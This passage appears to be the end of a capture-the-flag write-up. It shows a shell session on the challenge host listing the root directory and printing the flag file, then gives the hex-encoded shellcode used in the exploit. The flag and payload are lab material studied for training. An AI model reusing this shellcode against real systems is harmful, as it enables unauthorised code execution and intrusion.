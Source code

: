 ```
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
service.conf
srv
sys
tmp
usr
var
wrapper
$ cat flag.txt
uscg{Nothing_Like_A_Bit_Of_Shellcode_For_The_Week}
$
```
For additional reference, the base16-encoded shellcode looks like `43204341204A004340004B204C08004047084043000606062049494041000606060606060606060606060606060606060606060606060606A12A14630A`

Thanks for reading!
